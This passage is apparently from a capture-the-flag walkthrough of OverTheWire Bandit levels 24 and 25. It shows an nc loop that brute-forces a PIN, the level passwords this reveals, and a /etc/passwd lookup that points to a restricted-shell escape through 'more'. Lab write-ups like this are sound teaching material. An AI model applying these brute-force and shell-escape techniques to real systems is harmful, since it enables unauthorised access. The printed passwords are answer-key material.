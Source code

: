 
> After a minute flag will be written in given path. You can you `watch` command to not check `ls` everytime. <br>
> e.g.: `watch ls` (Quit -> Ctrl+C)
{: .prompt-info }

<br>
<hr>

## Bandit Level 24

### Level Goal

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time

```bash
# Build Up Buffer Of All Password + PIN Combinations
# Dump It Inside `netcat` Listener
# Save Results In `results` In Case You Miss It
bandit24@bandit:/tmp/tmp.q0T7KkBSEg$ (for pin in {0000..9999}; do echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $pin"; done) | nc localhost 30002 | tee results
...
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
```

<br>
<hr>

## Bandit Level 25

### Level Goal

Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not  **/bin/bash**, but something else. Find out what it is, how it works and how to break out of it.

```bash
➜ ssh bandit.labs.overthewire.org -p 2220 -l bandit25

bandit25@bandit:~$ cat /etc/passwd | grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext

bandit25@bandit:~$ cat /usr/bin/showtext
#!/bin/sh
export TERM=linux
exec more ~/text.txt # <--- Exploitable
exit 0
```
